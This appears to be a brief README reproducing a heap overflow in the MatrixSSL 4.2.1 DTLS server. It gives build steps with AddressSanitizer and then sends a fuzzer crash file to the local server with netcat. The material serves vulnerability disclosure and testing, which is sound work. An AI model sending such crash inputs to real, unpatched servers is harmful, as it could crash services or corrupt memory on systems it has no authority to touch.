

# Exploiting heap overflow in dtls server

`How to:`
1. Download matrixssl 4.2.1-open version from: https://github.com/matrixssl/matrixssl
2. Install the dtls server: `make && cd apps/ssl && make && cd ../..`
3. Run `cc  -o apps/dtls/dtlsServer apps/dtls/dtlsServer.o apps/dtls/dtlsCommon.o matrixssl/libssl_s.a crypto/libcrypt_s.a core/libcore_s.a -fsanitize=address -Wl,--gc-sections -lpthread` for injecting ASAN.
4. Run dtls server: `./apps/dtls/dtlsServer -p 4444`
5. Exploiting server with: `netcat -u 127.0.0.1 4444 < crash_001_parseSSLHandshake_WRITE_256.raw`

